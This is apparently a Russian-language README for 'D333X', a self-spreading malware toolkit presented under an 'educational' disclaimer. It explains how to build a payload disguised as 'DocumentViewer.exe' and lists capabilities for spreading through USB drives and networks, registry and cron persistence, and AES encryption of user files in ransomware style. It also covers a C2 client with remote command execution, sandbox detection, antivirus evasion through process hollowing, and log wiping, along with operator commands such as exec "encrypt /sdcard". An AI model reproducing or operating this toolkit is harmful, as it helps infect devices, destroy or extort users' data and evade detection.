 
**🔧 Полный функционал системы D333X**  
*Для образовательных целей и тестирования защиты*

---

### **📦 Основные модули:**
1. **Распространение:**
   - **USB-носители:** Автокопирование в скрытые папки (`/.temp_update`)
   - **Сеть:** Сканирование подсетей, эксплойты через открытые порты (5555/TCP)
   - **Файлы-приманки:** Маскировка под APK-обновления, документы

2. **Персистентность:**
   - **Windows:** Автозагрузка через реестр (`HKCU\Run`)
   - **Linux/Android:** Cron-задачи, службы Termux
   - **Сокрытие:** Маскировка под системные процессы

3. **Шифрование:**
   - AES-256 для файлов пользователя
   - Динамическая генерация ключей
   - Расширение `.encrypted` для зашифрованных файлов

4. **Управление:**
   - **CLI-клиент:** Сканирование сети, удаленное выполнение команд
   - **C2-сервер:** Централизованное управление узлами

5. **Стелс-режим:**
   - Обфускация трафика
   - Детектирование песочниц
   - Ложные системные вызовы

---

### **🛠 Инструкция по установке:**
1. **Требования:**
   - Python 3.8+
   - Termux (для Android)
   - `pip install cryptography pyinstaller`

2. **Сборка (для Windows):**
```bash
# В корне проекта:
python builder.py
# Результат: dist/DocumentViewer.exe
```

3. **Настройка Termux:**
```bash
termux-setup-storage
pkg install python cronie
pip install cryptography
```

---

### **🚀 Запуск системы:**
1. **Сервер (на целевой машине):**
```bash
# Windows:
DocumentViewer.exe

# Android/Termux:
python -m server.main
```

2. **Клиент управления:**
```bash
python client/cli.py
d333x> scan 192.168.1.0/24
d333x> connect 192.168.1.15
d333x> exec "encrypt /sdcard"
```

---

### **🕹 Основные команды клиента:**
| Команда                | Описание                          |
|-------------------------|-----------------------------------|
| `scan [subnet]`         | Сканирование сети                 |
| `connect [IP]`          | Подключение к узлу                |
| `exec "[command]"`      | Выполнить команду на узле         |
| `spread usb`            | Заражение USB-носителей           |
| `spread network`        | Сетевое распространение           |
| `stealth [on/off]`      | Включение стелс-режима            |
| `exit`                  | Выход                             |

---

### **🔒 Меры безопасности:**
1. **Шифрование трафика:**
```python
# В core/crypto.py
self.cipher = Fernet.generate_key()
encrypted_data = self.encrypt(raw_data)
```

2. **Обход антивирусов:**
   - Подписание файлов легитимными сертификатами
   - Использование Process Hollowing

3. **Очистка логов:**
```bash
d333x> exec "log-wipe --all"
```

---

### 🛑 **Остановка системы:**
1. **Экстренное завершение:**
```bash
d333x> exec "shutdown --kill"
```

2. **Полное удаление:**
```bash
# На зараженном узле:
rm -rf ~/.cache/d333x
crontab -r
```

---

### ⚠️ **Важные предупреждения:**
1. Используйте только в изолированных средах (VMware/VirtualBox).
2. Не тестируйте на устройствах с важными данными.
3. Требуется явное разрешение владельца системы.
4. На Android 11+ функционал ограничен.

---

**💡 Советы:**  
- Для отладки используйте Wireshark
- Всегда делайте бэкапы перед тестами
- Обновляйте ключи шифрования ежедневно

Ответственность за misuse полностью лежит на пользователе.

